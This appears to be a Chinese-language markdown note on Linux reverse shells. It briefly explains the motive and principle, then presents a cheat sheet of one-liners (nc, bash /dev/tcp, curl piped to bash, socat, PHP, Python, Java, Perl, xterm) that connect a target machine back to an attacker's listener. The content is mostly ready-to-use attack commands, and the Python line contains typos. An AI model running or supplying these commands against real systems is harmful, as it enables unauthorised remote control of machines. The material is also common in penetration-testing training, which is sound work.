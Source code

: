 # linux 反弹shell

## 原因：

```
1.目标机器的防火墙受限，目标机器只能发送信息，不能接收信息
2.要连接的端口被占用
3.目标在局域网，或者IP在变化，无法直接连接
4.目标机器所处环境未知
```

## 原理：

```
攻击者，在攻击机器上监听端口，目标机器上去，连接攻击机器
```

## 反弹sell

### nc

```shell
攻击机器 监听端口 nc 端口
目标机器 nc 攻击机器ip 端口 -e /bin/bash

攻击机器 nc -lvnp 2333
目标机器 nc 192.168.80.162:2333 -e /bin/bash
```

### bash

```bash
bash -i >& /dev/tcp/攻击机器ip/攻击机器端口 0>&1

攻击机器 nc -lvnp 2333
目标机器 bash -i >& /dev/tcp/192.168.80.162/2333 0>&1
```

### web服务

```shell
攻击机器开启http服务 根目录写入文件 内容位 bash -i >& /dev/tcp/攻击机器ip/攻击机器端口 0>&1   然后监听端口

目标机器访问 攻击机器ip ： curl 攻击机器ip | bash
```

### socat

```shell
socat tcp-connect :攻击机器ip:端口  exec: 'bash li',pty,stderr,setsid,sigint,sane
```

### php

此代码假定 TCP 连接使用文件描述符 3。这适用于我的测试系统。如果不起作用，请尝试 4、5、6...

```php
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

### python

这是在 Linux / Python 2.7 下测试的： 如果使用python3，用python3 -c ….. 就行

```python
python -c "import os,socket,subprocess;s=socket.socket
(socket.AF_INET,socket.SOCK_STRAM);s.connect(('ip',port));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(['/bin/bash','-i']);"
```

### java

```java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

### PERL

```perl
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton( $i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");} ;'

```

### xterm

最简单的反向 shell 形式之一是 xterm 会话。以下命令应在服务器上运行。它将尝试在 TCP 端口 6001 上连接回您 (10.0.0.1)。

```
xterm -display 10.0.0.1:1
```

捕获传入的 xterm，请启动 X-Server（：1 - 侦听 TCP 端口 6001）。一种方法是使用 Xnest（在您的系统上运行）：

```
Xnest :1
```

您需要授权目标连接到您（命令也在您的主机上运行）：

```
xhost +targetip
```

from :

https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet